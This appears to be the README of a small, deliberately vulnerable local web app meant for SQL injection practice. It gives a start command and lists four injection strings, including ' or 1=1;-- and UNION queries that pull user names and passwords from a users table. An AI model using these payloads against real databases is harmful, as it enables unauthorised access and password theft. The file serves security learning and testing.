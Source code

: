 ## Get started
```bash
python3 main.py
```
Go to `http://localhost:8080`

## Possible SQL injections
- `user1' or name='user2' or name='user3'--`
- `' or 1=1;--`
- `' union select password from users--`
- `' union select name || ':' || password from users--`
